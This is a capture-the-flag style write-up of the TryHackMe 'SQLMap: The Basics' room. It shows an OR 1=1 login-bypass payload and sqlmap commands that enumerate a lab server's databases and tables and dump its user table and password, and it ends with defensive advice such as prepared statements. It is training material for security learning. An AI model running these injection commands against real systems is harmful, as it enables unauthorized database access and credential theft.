






# SQLMap: The Basics - TryHackMe

**Difficulty:** Easy
**OS:** Linux
**Date:** April 1, 2026
**Time:** ~1h
**Room link:** https://tryhackme.com/room/sqlmapthebasics

---

## 🎯 Objective

Learn how to use SQLMap, an automated tool for detecting and exploiting SQL injection vulnerabilities.

---

## 📚 Introduction to SQL Injection

SQL Injection allows an attacker to inject malicious SQL code into a query to:
- Bypass authentication
- Extract sensitive data
- Modify or delete data
- Execute system commands (in some cases)

**Authentication bypass example:**

Normal query:
```sql
SELECT * FROM users WHERE username = 'John' AND password = 'password123';
```

With injection:
```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1; -- -';
```

`OR 1=1` is always true → authentication bypassed!

---

## 🛠️ SQLMap - Automation

SQLMap is a command-line tool that automates:
- SQL injection vulnerability detection
- Exploitation of those vulnerabilities
- Data extraction (databases, tables, columns)

---

## 🔍 Practical Exercise

### Target Identification

The vulnerable web application is hosted at `http://10.129.132.29/ai/login`



### Capturing the GET Request

Open DevTools → Network tab → Enter credentials → Observe the request



**Vulnerable URL captured:**
```
http://10.129.132.29/ai/includes/user_login?email=test&password=test
```

---

## 💉 Exploitation with SQLMap

### Question 1: How many databases are available?

**Command:**
```bash
sqlmap -u 'http://10.129.132.29/ai/includes/user_login?email=test&password=test' --dbs --level=5
```



**SQLMap prompts:**
- Skip test payloads for other DBMSes? → `y`
- Include all MySQL-specific tests? → `y`
- Try random integer values for '--union-char'? → `y`
- Keep testing other parameters? → `n`

**Results:**



6 databases detected:
- `ai`
- `information_schema`
- `mysql`
- `performance_schema`
- `phpmyadmin`
- `test`

**Answer:** `6`

---

### Question 2: Name of the table in the "ai" database?

**Command:**
```bash
sqlmap -u 'http://10.129.132.29/ai/includes/user_login?email=test&password=test' -D ai --tables
```



**Result:**
```
Database: ai
[1 table]
+------+
| user |
+------+
```

**Answer:** `user`

---

### Question 3: Password of test@chatai.com?

**Command:**
```bash
sqlmap -u 'http://10.129.132.29/ai/includes/user_login?email=test&password=test' -D ai -T user --dump
```



**Dump result:**
```
Database: ai
Table: user
[1 entry]
+----+-----------------+---------------------+----------+
| id | email           | created             | password |
+----+-----------------+---------------------+----------+
| 1  | test@chatai.com | 2023-02-21 09:05:46 | 12345678 |
+----+-----------------+---------------------+----------+
```

**Answer:** `12345678`

---

## 📚 What I Learned

1. **SQL Injection basics**:
   - `OR 1=1` bypasses authentication
   - `--` comments out the remaining query
   - GET parameters are often vulnerable

2. **SQLMap workflow**:
   - `--dbs` : List available databases
   - `-D <db> --tables` : List tables in a database
   - `-D <db> -T <table> --dump` : Dump table contents

3. **`--level=5` flag**: Test aggressiveness level (1-5)
   - Higher level = more exhaustive tests
   - Increases scan time

4. **Request inspection**: The Network tab captures GET/POST parameters to use with SQLMap

5. **Single quotes**: Wrapping the URL in `' '` avoids errors with special characters in the terminal

---

## 🛠️ Tools Used

- SQLMap (automated SQL injection)
- Browser DevTools (Network tab)

---

## 💡 Security Recommendations

To protect against SQL Injection:

1. **Prepared Statements**: Use parameterized queries
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE email = ? AND password = ?");
   $stmt->execute([$email, $password]);
   ```

2. **Input Validation**: Validate and sanitize all user inputs

3. **Least Privilege**: The app's DB account should only have the minimum required permissions

4. **WAF**: Web Application Firewall to detect injection patterns

5. **Error Handling**: Never display full SQL errors to the user

6. **ORM**: Use ORM frameworks (Eloquent, Sequelize, etc.)

7. **Testing**: Regularly scan with SQLMap in test environments

---

*Writeup by 0xMalt - TryHackMe Profile: https://tryhackme.com/p/0xMalt*
